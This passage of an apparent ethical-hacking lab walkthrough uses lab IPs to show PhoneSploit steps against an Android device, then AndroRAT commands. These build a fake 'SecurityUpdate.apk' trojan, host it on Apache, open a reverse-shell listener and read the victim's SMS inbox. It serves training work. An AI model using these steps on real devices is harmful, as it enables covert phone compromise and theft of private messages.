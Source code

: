 + When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
+ When prompted to `Enter where you would like the screenshot to be saved`, type `/home/attacker/Desktop` as the location and press `Enter`. The screenshot of the target mobile device will be saved in the given location. Minimize the Terminal window
+ Click `Places` in the top section of the Desktop; then, from the context menu, click `Desktop`
+ At the` main_menu` prompt, type `14` and press `Enter` to choose `List all apps on a phone`
+ When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
+ Now, at the main_menu prompt, type `15` and press `Enter` to choose `Run an app`. In this example, we will launch a calculator app on the target Android device
+ When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
+ To launch the `calculator app`, type `com.android.calculator2` and press `Enter`
+ View that the `calculator app` is launched on the `Android`
+ In the `Terminal` window, type `p` and press `Enter` to navigate to `additional PhoneSploit options` on the `Next Page`
+ At the `main_menu` prompt, type `18` and press `Enter` to choose `Show Mac/Inet information for the target Android device`
+ When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`
+ Now, at the `main_menu` prompt, type `21` and press `Enter` to choose the `NetStat option`
+ When prompted to `Enter a device name`, type the target Android device’s IP address (in this case, `10.10.1.14`) and press `Enter`

### Task 5: Hack an Android Device by Creating APK File using AndroRAT

+ Open the `terminal`
+ sudo su
+ cd AndroRAT
+ python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
  + --build: is used for building the APK
  + -i: specifies the local IP address (here, 10.10.1.13)
  + -p: specifies the port number (here, 4444)
  + -o: specifies the output APK file (here, SecurityUpdate.apk)
+ mkdir /var/www/html/share
+ chmod -R 755 /var/www/html/share
+ chown -R www-data:www-data /var/www/html/share
+ cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/
+ service apache2 start
+ python3 androRAT.py --shell -i 0.0.0.0 -p 4444
  + --shell: is used for getting the interpreter
  + -i: specifies the IP address for listening (here, 0.0.0.0)
  + -p: specifies the port number (here, 4444)
+ Switch to `Android` and Turn off Play Protect
+ Launch `Chrome` and navigate to `http://10.10.1.13/share`
+ Install `SecurityUpdate.apk` and run the application
+ Notice the `Interpreter` has opened on `Parrot`
+ help
+ deviceInfo
+ getSMS inbox
+ getMACAddress
+ exit
